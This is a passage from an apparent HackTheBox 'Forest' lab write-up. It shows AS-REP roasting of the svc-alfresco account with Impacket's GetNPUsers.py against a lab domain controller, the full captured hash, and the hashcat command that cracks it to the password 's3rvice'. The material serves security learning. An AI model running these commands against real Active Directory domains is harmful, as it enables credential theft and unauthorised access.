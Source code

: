 ```
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x47e
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

```

- Let's try to kerberoast.
- The domain is HTB `python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass `

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:6510e231f7bd073beb207c9c8b0312f1$9ee65c44e5fb88dd1a6e59b723eff51cf8cc3d991c7070173d0467ce8be8f1d700e7cfc92037501e59cfd3126649041a63f9cb0ea50e4217baf607d4fdfc472f28c7ff95d6de871bd57774d0eaf969a32f9d23753d723e6917ada3e25a22e799552da96c7ff8e08cd50acdb8b8110fdfb0dc539312da2c5ced243df8f5934dae41789ecbbf7b96ef67b731372424aea72e616c510677f644926216f67dea198bda8a0a174df8253af33c3aae6b16b3b5209dd51fc8ef2a29d5bbb163c0593eed4f4974dbe82833582d4f4ccdc0f1e2d555cac02d7472f52595f157c52708a363
```

- Now we can crack the password with hashcat `hashcat -m 18200  hash.txt /usr/share/wordlists/rockyou.txt` And we get the password it is `s3rvice`  

![hashcat](../.res/2022-09-24-20-40-54.png)  
